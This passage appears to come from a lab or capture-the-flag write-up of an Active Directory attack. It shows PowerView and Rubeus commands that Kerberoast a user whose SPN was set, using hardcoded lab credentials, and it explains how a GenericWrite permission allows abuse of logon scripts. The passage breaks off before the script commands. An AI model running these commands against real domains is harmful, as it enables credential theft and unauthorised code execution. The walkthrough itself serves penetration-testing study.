 
I can confirm new SPN with the following command:

`Get-DomainUser maria | Select serviceprincipalname`

![](https://i.imgur.com/9sz68rK.png)


PowerView has **Get-DomainSPNTicket** to Kerberoast, but it actually requires a credential object (*even though I am logged in as smith*):

`Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433"`

![](https://i.imgur.com/Y1dxHR0.png)


The error message is about the credentials being invalid. I’ll create a credential object:

```powershell
$pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $pass)

Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433" -Credential $cred
```

Above provides hash for account **maria** but it is not crackable:


![](https://i.imgur.com/fNgubzQ.png)


Alternatively, I can also use **rubeus.exe** for kerberoasting as such:

```powershell
.\rubeus.exe kerberoast /creduser:object.local\smith /credpassword:Password123!
```




#### Method 2: logon script

> In Active Directory, a **logon script** is a batch file or script that is executed automatically when a user logs into a Windows domain.

> The logon script setting is stored as an attribute of user objects in Active Directory.

> An attacker with the GenericWrite permission could modify the logon script setting of a target user account to point to a malicious script hosted on a server under their control.

> The attacker could then wait for the targeted user to log in to their domain account. Upon login, the system would execute the modified logon script.

As always, I will first prepare credentials for user **smith** as such:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $SecPassword)
```

Now using the commands below, I can set the logon script to **foo.ps1** which will forward result of `whoami` to `C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt`:
